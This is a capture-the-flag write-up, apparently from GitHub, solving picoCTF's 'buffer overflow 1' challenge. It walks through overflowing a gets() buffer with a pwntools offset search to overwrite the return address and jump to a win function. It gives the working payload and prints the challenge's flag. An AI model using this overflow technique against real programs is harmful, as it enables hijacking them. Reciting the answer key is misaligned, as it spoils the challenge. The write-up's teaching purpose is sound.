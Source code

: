 # buffer overflow 1
Points: 200

## Category
Binary Exploitation

## Question
>Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this program? You can find it in /problems/buffer-overflow-1_3_af8f83fb19a7e2c98e28e325e4cacf78 on the shell server. Source. 

### Hint
>This time you're actually going to have to control that return address!
>
>Make sure you consider Big Endian vs Little Endian.

## Solution
Before looking at the source code, we can run the program first.

```
$ ./vuln 
Please enter your string: 
AAAA
Okay, time to return... Fingers Crossed... Jumping to 0x80486b3
```

Looks like it takes in an input, and jumps to an address. Let's look at the source code now.

```c
// Imports here...
#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
	char buf[FLAGSIZE];
	FILE *f = fopen("flag.txt","r");
	// Reading flag file
	printf(buf);
}

void vuln(){
	char buf[BUFSIZE];
	gets(buf);

	printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){
	// Unimportant stuff
	puts("Please enter your string: ");
	vuln();
	return 0;
}
```

We can see that the address that it shows us is the return address, which should be the address of _main_. If we do a buffer overflow, we can take control of the return address, and let the program jump to wherever we want.

In this case, we would like to jump to the _win_ function, which prints out the flag.

Let's try spamming the program again to see if our hunch is correct.

```
$ ./vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Okay, time to return... Fingers Crossed... Jumping to 0x41414141
Segmentation fault
```

The return address has been overwritten to _0x41414141_, which is the hex value of _A_. As long as we can find the correct amount of padding, we can control the where the return pointer returns to.

We can use the [De Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence), which will find the padding we need. We will use _pwntools_.

```python
>>> from pwn import *
>>> cyclic(100)
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
```

We can now feed that string into the program and see what address the program jumps to.

```
$ ./vuln 
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c
Segmentation fault
```

Ok, it jumps to _0x6161616c_. We can use `cyclic_find()` to find the offset. First we convert the hex back into ASCII. Remember that this is in little endian format. `p32()` just converts the hex back into ASCII in little endian format.

```python
>>> from pwn import *
>>> cyclic_find(p32(0x6161616c))
44
```

Now we know the amount of padding required. Let's test it again, with 44 'A's, and another 4 'B's. We should expect the address to show _0x41414141_.

```
$ ./vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Okay, time to return... Fingers Crossed... Jumping to 0x42424242
Segmentation fault
```

Just as we expected. All that's left to do is to replace _BBBB_ with the ASCII values that corresponds to the address of the _win_ function.


```python
>>> from pwn import *
>>> vuln = ELF('./vuln')
[*] '/root/Desktop/picoCTF/Binary Exploitation/buffer overflow 1/solution/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
>>> p32(vuln.symbols['win']) # Get address of win function
'\xcb\x85\x04\x08'
>>> 'A' * 44 + '\xcb\x85\x04\x08'
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xcb\x85\x04\x08'
```

Of course, we cannot type _\xcb\x85\x04\x08_ in ASCII format, so all we have to do is have Python output this string, and pipe it into the program _vuln_.

```
$ python -c "from pwn import *; print 'A' * 44 + '\xcb\x85\x04\x08'" | ./vuln 
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{sample_flag}
Segmentation fault
```

Great! It works locally, all we have to do now is run it on the web shell.

```
$ cd /problems/buffer-overflow-1_3_af8f83fb19a7e2c98e28e325e4cacf78
$ python -c "from pwn import *; print 'A' * 44 + '\xcb\x85\x04\x08'" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{addr3ss3s_ar3_3asy65489706}Segmentation fault
```

And we get the flag!

Working solution [solve.py](solution/solve.py)

### Flag
`picoCTF{addr3ss3s_ar3_3asy65489706}`
